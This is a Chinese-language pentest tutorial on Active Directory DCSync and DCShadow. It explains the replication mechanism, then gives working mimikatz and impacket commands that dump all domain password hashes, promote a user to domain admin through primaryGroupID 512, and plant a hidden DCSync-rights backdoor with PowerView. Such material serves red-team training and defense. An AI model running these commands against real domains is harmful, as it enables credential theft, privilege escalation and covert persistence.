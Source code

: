 # DCSync

#### 关于DCSync

**DCSync**

* 域内可以拥有多个域控制器，每台域控各自存储一份所在域的活动目录可写副本，对目录任何修改都可以从源域控制器同步到本域、域树或域林中的其他域控制器上
* 一个域向另外一个获取数据更新时，客户端域控会向服务端域控发送DSGetNCChanges请求，请求保护客户端域控必须应用到其活动目录副本的一组更新
* 域控制器15分钟就会有一次域数据同步
* DSCync通过域控制器同步原理，通过Directory Replication Services(DRS)服务的IDL\_DRSGetNCChanges接口向域控发起数据同步请求
* 在DCSync出现前需要测试人员登录到域控制器或卷影拷贝获取NTDS.dit文件
* 利用DCSync，测试人员可以在域内任何一台机器上模拟一个域控制器
* DCSync不适用于RODC(只读控制器)
* 默认情况下，只有Administrator、Domain Controllers和Enterprise Domain Admins组内用户和DC的机械账户才有执行DCSync操作的权限

#### DCSync导域内哈希

mimikatz用法，导出域内指定用户的信息(包括hash)

```
mimikatz.exe "lsadump::dcsync /domain:hack-my.com /user:hack-my\administrator" exit
```

mimikatz用法，导出域内所有用户的信息(包括hash)

```
mimikatz.exe "lsadump::dcsync /domain:hack-my.com /all /csv" exit
```

impacket项目secretsdump.py利用

```

python3 secretsdump.py hack-my.com/administrator:P\@ssW0rd\!@10.10.10.11 -just-dc-user "hack-my\administrator"
```

#### DCShadow

* 利用DRS数据同步机制，将DCSync攻击思路反转，通过创建恶意域控，利用DRS将预先设定的对象和对象属性注入正在允许的合法域控制器。
* 利用DCShadow修改普通域用户的primaryGroupID属性改为512，使普通用户成为域管理员

在域内任意主机上利用mimikatz进行数据更改

```
mimikatz.exe "lsadump::dcshadow /object:CN=lbwnb,CN=Users,DC=hack-my,DC=com /attribute:primaryGroupID /value:512" exit
```

保持第一个窗口的mimikatz不关闭新开一个cmd窗口，运行mimikatz强制触发域复制

```
mimikatz.exe "lsadump::dcshadow /push" exit
```

#### DCSync权限维持

* 在获得域管后，测试人员可以手动为域内标准用户赋予DCSync权限实现隐藏后门，只需要为普通域用户添加两条扩展权限即可
* DS-Replication-Get-Changes 复制目录更改 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
* DS-Replication-Get-Changes-All 复制所有目录更改 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2

powerview.ps1脚本实现lbwnb用户的权限添加，添加后可以使用lbwnb用户导域内hash

```
Import-Module .\PowerView.ps1
Add-DomainObjectAcl -TargetIdentity "DC=hack-my,DC=com" -PrincipalIdent lbwnb -Rights DCSync -Verbose
```

删除权限

```
Import-Module .\PowerView.ps1
Remove-DomainObjectAcl -TargetIdentity "DC=hack-my,DC=com" -PrincipalIdent lbwnb -Rights DCSync -Verbose
```
